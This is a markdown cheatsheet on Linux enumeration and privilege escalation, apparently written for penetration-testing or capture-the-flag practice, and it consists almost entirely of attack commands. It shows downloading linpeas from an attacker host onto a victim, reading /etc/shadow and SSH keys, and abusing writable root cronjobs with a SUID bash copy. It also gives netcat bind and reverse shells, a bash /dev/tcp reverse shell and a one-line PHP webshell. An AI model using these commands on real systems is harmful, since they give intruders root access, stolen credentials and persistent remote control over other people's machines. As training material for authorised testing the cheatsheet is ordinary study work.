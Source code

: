 #cheatsheet 
# Linux Enumeration & Privilege Escalation

## Upgrade Shell
1. `python -c 'import pty;pty.spawn("/bin/bash")'` - Spawns a python shell
2. `export TERM=xterm` - gives access to term commands such as clear
3. `stty raw -echo; fg` - turn off terminal echo (we can use arrow keys & autocomplete) and then foregrounds the shell

**Note:** If the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

### Change Terminal tty Size
1. *On attacker machine:*
`stty -a` - note down the values for column and rows

2. *On victim machine:*
`stty rows <value of rows>`
`stty cols <value of cols>`

## Linux Enumeration
### Using shell scripts (linpeas/linenum)
*Copy **linpeas.sh** from attacker machine to victim machine: *
1. *On attacker machine:*
`cd /path/to/linpeas`
`python3 -m http.server <port>`

2. *On victim machine:*
`wget http://<attacker-tun0-ip>:<port>/linpeas.sh -O /tmp/linpeas.sh`
OR
`curl http://<attacker-tun0-ip>:<port>/linpeas.sh -o /tmp/linpeas.sh`

3. *Change permissions to make it executable:*
`chmod +x linpeas.sh`

4. *Run linpeas.sh*
`./linpeas.sh`

**Note:** Linpeas does not find some important files such as a .txt file in /opt/ directory. It is recommended to manually visit all the directories in /.

### Manual
1. Run `sudo -l` to see what can be executed with root permissions

2. Important things to look out for:
- Binaries with SUID bit set
`find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null`

- Cronjobs run by root
`cat /etc/crontab`

- Readable /etc/shadow file
`cat /etc/shadow`

- /var/www/, /opt/, /usr/local/ (essentially all the directories in /)

- SSH keys
`ls -la /home/<user>/.ssh`

- Interesting files in /home/\<user\>

- Unusual directories or files in / dir
	
- .txt, .bak files
`locate txt` OR `find / -name *.txt`
`locate bak` OR `find / -name *.bak`

#### Cronjobs
If a bash file is user/world writeable and is run as root in a cronjob, the following could be a possible privesc method:
Add the relevant code to the user/world writeable file:
**Method 1**
1. Copy /bin/bash to /tmp and change permissions to enable SUID on the binary using 4755 permissions
2. Run the SUID binary to gain root shell
`/bin/bash -p`

**Method 2**
Listener For Bind Shell on Linux
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Listener For Reverse Shell
- `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

- `bash -i >& /dev/tcp/<LOCAL-IP>/<port> 0>&1`

Appropriately run *nc* command on the attacker machine based on the listener in the cron root executable file.*

___

If root password is available:
`su -` - then type password to gain shell

**Webshell**
Usually written in HTML forms or directly in browser (URL)
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

___

